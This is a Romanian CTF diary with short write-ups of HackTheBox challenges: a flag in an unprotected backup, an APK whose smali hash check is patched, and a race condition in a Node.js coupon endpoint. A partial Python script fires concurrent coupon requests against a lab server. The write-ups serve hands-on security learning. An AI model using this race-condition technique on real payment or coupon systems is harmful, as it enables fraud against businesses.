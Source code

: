 ne creeaza directorul shared pe care l analizam.
avem un subfolder numit Photos pe care daca l parcurgem observam o poza cu flag ul HTB{ThisBackupIsUnprotected}

# Ziua 8(22.06.2022)

Continuam cu un nou challenge mai interesant de mobile.
ApKey.

Analizand fisierul in jadx observam ca fisierul are un sistem de logging.Trebuie sa verificam un input sa corespunda cu un hash de md5.
Modificam codul .smali cu apktool astfel incat sa schimbam hash ul in unul cunoscut si aflam flagul.


# Ziua 9(23.06.2022)

Rezolvam un challenge de web de e hackthebox

APLICATIa este un vending machine care ne permite cumpararea unor produse in limita cash ului generat de catre un cupon HTB_100. Insa flagul este afisat daca putem cumpara un produs al carui pret depaseste cu mult cel generat de catre cupon.
Analizand fisierele aplicatiei observam ca aplicatia scrisa in nodejs are un comportament asincron(modul in care gestioneaza cererile).Prin urmare, vom realiza cereri de validare a cuponului pt a ne creste bankroll ul si a putea flagul.

![diogene s rage](/home/stefan/Pictures/Diogenes.png)

```

from threading import Thread,Barrier
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed
import time

threads=[]

URL = "http://157.245.46.136:32006/"
url = URL+"api/coupons/apply"

coupon = {"coupon_code": "HTB_100"}



url_pur = URL+"api/purchase"
item = {"item": "C8"}
r = requests.session()
s = r.post(url_pur, json=item)


def pwn():
    headers = {"Content-Type" : "application/json" }
    headers['Cookie'] = "session="+s.cookies.get_dict()['session']
    r = requests.post(url_pur, json=item,headers=headers)
    print(r.text)

def connect(barrier,URLs):
    headers = {"Content-Type" : "application/json" }
    headers['Cookie'] = "session="+s.cookies.get_dict()['session']
    #print(headers)
    r = requests.post(URLs, json=coupon,headers=headers)
    print(r.text)
    barrier.wait()

```